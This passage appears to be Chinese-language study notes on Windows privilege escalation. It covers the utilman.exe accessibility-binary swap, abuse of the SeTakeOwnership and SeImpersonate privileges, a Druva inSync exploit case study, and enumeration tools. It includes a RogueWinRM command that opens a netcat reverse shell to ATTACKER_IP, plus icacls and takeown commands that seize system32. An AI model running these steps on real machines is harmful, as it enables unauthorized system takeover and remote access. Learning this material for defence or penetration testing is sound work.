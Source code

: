       3. Rename utilman.exe to utilman.old
        - 重命名 `Rename-Item -Path "c:\logfiles\daily_file.txt" -NewName "monday_file.txt"`
      4. Rename cmd.exe to utilman.exe
      5. Lock the console and press Win+U
  - SeTakeOwnership 特权
    - SeTakeOwnership 特权允许用户获取系统上任何对象的所有权
      1. `takeown /f "%windir%\system32"`
      2. `icacls "%windir%\system32" /grant "%username%":F`
      3. Rename cmd.exe to utilman.exe
        - `copy cmd.exe utilman.exe`
      4. Lock the console and press Win+U
  - SeImpersonate / SeAssignPrimaryToken 特权
    - SeImpersonate / SeAssignPrimaryToken 特权允许进程模拟其他用户并代表他们执行操作
      1. 生成一个进程，以便用户可以连接该进程并对其进行身份验证，以进行模拟
      2. 找到一种方法来强制特权用户连接并验证生成的恶意进程
    - 使用 RogueWinRM 漏洞来实现这两个条件
      - `c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"`
      - `-p` 指定漏洞利用程序要运行的可执行文件
      - `-a` 用于将参数传递给可执行文件，传递的参数是`-e cmd.exe ATTACKER_IP 4442`
- 滥用的软件漏洞
  - 未打补丁的软件 `wmic product get name,version,vendor`
    - `wmic product` 命令可能不会返回所有已安装的程序。根据某些程序的安装方式，它们可能不会在此处列出。检查桌面快捷方式、可用服务或任何表明存在可能易受攻击的其他软件的痕迹始终是值得的
    - 一旦我们收集了产品版本信息，我们就可以随时在exploit-db、  packetstorm 或plain old  Google等网站上在线搜索已安装软件的现有漏洞
  - 案例研究：Druva inSync 6.6.3
    - 目标服务器正在运行 Druva inSync 6.6.3，该服务器容易受到权限升级的影响
    - 该漏洞是由于对Chris Lyne最初报告的 6.5.0 版本的另一个漏洞应用了错误补丁而导致的
    - 该软件容易受到攻击，因为它以系统权限在端口 6064 上运行 RPC（远程过程调用）服务器，只能从本地主机访问
    - RPC是一种允许给定进程通过网络公开函数（RPC 行话中称为过程）的机制，以便其他计算机可以远程调用它们
    - [原始漏洞利用代码](https://packetstormsecurity.com/files/160404/Druva-inSync-Windows-Client-6.6.3-Privilege-Escalation.html)
- 自动化工具
  - [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)是一个开发用于枚举目标系统以发现权限提升路径的脚本
  - [PrivescCheck](https://github.com/itm4n/PrivescCheck) 是一个PowerShell脚本
  - [WES-NG](https://github.com/bitsadmin/wesng)
    - 运行在攻击端，防止病毒查杀
    - 使用 `wes.py --update` 升级脚本
    - `systeminfo` 收集目标终端信息
    - `wes.py systeminfo.txt`
  - Metasploit
    - 如果已经拥有 Meterpreter shell，使用 `multi/recon/local_exploit_suggester` 模块
